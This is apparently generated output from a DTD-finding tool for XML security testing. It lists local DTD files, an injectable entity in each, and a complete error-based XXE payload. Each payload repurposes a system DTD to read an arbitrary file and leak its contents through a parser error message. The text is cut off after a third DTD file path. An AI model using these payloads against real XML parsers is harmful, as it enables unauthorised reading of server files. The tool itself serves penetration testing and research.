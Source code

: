  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/xhtml1-strict.dtd`

**Injectable entity:** `HTMLlat1`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/erlang/xhtml1-strict.dtd">

    <!ENTITY % HTMLlat1 '
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd`

**Injectable entity:** `attlist.modname`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd">

    <!ENTITY % attlist.modname '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/dblatex-config.dtd`
